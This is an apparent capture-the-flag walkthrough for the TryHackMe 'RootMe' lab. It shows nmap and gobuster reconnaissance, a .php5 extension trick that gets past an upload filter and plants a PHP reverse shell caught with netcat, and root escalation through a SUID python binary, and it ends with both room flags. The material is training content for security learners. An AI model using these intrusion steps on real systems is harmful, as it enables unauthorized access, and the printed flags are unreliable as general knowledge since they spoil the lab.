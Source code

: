 ```yaml
---
description: https://tryhackme.com/room/rrootme
---
```


# RootMe

## Reconnaissance

```
(kali㉿kali)-[~/Desktop] $ sudo nmap -sV 10.10.192.126 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-21 23:16 EDT Nmap scan report for 10.10.192.126 
Host is up (2.4s latency). 
Not shown: 998 closed tcp ports (reset) 
PORT STATE SERVICE VERSION 
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) 
80/tcp open http Apache httpd 2.4.29 ((Ubuntu)) 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see **port 80** is open, so we can try to enumerate some web directories using gobuster.

<pre><code>(kali㉿kali)-[~/Desktop] $ gobuster dir -u http://10.10.192.126 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
<strong>===============================================================
</strong>Gobuster v3.5
by OJ Reeves (@TheColonial) &#x26; Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.126
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/21 23:25:23 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.192.126/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.192.126/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.192.126/js/]
/panel                (Status: 200) [Size: ???] [--> http://10.10.192.126/panel/] &#x3C;- Looks suspicious
</code></pre>

## Getting a Shell

Accessing the /panel directory of the machine's webserver leads us to a file upload page.

As the devious person I am, I tried to upload pentestmonkey's php reverse shell script to listen on port 4444 but this server has an upload filtering for .php files.&#x20;

I managed to bypass this filter by renaming my reverse shell file to a .php5 extension. After the upload was a success, the page even had a button to directly run my recently uploaded script!

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444           
listening on [any] 4444 ...
connect to [10.18.41.182] from (UNKNOWN) [10.10.192.126] 36120
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:38:01 up 23 min,  0 users,  load average: 0.00, 0.05, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ ls -la
ls -la
total 2097256
drwxr-xr-x  24 root root       4096 Aug  4  2020 .
drwxr-xr-x  24 root root       4096 Aug  4  2020 ..
drwxr-xr-x   2 root root       4096 Aug  4  2020 bin
drwxr-xr-x   3 root root       4096 Aug  4  2020 boot
drwxr-xr-x   2 root root       4096 Aug  4  2020 cdrom
drwxr-xr-x  17 root root       3700 Jun 22 03:15 dev
drwxr-xr-x  96 root root       4096 Aug  4  2020 etc
drwxr-xr-x   4 root root       4096 Aug  4  2020 home
lrwxrwxrwx   1 root root         34 Aug  4  2020 initrd.img -> boot/initrd.img-4.15.0-112-generic
lrwxrwxrwx   1 root root         34 Aug  4  2020 initrd.img.old -> boot/initrd.img-4.15.0-112-generic
drwxr-xr-x  22 root root       4096 Aug  4  2020 lib
drwxr-xr-x   2 root root       4096 Aug  4  2020 lib64
drwx------   2 root root      16384 Aug  4  2020 lost+found
drwxr-xr-x   2 root root       4096 Feb  3  2020 media
drwxr-xr-x   2 root root       4096 Feb  3  2020 mnt
drwxr-xr-x   2 root root       4096 Feb  3  2020 opt
dr-xr-xr-x 107 root root          0 Jun 22 03:14 proc
drwx------   6 root root       4096 Aug  4  2020 root
drwxr-xr-x  26 root root        860 Jun 22 03:20 run
drwxr-xr-x   2 root root      12288 Aug  4  2020 sbin
drwxr-xr-x   4 root root       4096 Aug  4  2020 snap
drwxr-xr-x   2 root root       4096 Feb  3  2020 srv
-rw-------   1 root root 2147483648 Aug  4  2020 swap.img
dr-xr-xr-x  13 root root          0 Jun 22 03:14 sys
drwxrwxrwt   2 root root       4096 Jun 22 03:37 tmp
drwxr-xr-x  10 root root       4096 Feb  3  2020 usr
drwxr-xr-x  14 root root       4096 Aug  4  2020 var
lrwxrwxrwx   1 root root         31 Aug  4  2020 vmlinuz -> boot/vmlinuz-4.15.0-112-generic
lrwxrwxrwx   1 root root         31 Aug  4  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-112-generic

```

My usual routine after getting a web shell is spawning an interactive TTY using python.

After getting my interactive TTY, I tried to list some information about the directories & files within the target machine. We were tasked to look for a flag within our current powers, and so we looked.&#x20;

```
$ ls
ls
html  user.txt
$ cat user.txt
cat user.txt
THM{y0u_g0t_a_sh3ll}
```

## Privilege Escalation

One common angle of escalating privileges in Linux machines is looking for exectuables with the SUID bit set.

```
$ find / -user root -perm /4000
find / -user root -perm /4000
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount

```

I noticed that there is a weird entry of `/usr/bin/python`, to which I used a technique from GTFOBins that leverages the python binary to gain root privileges.

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
# ls     
ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
# cd root
cd root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

```
Done and dusted!
```
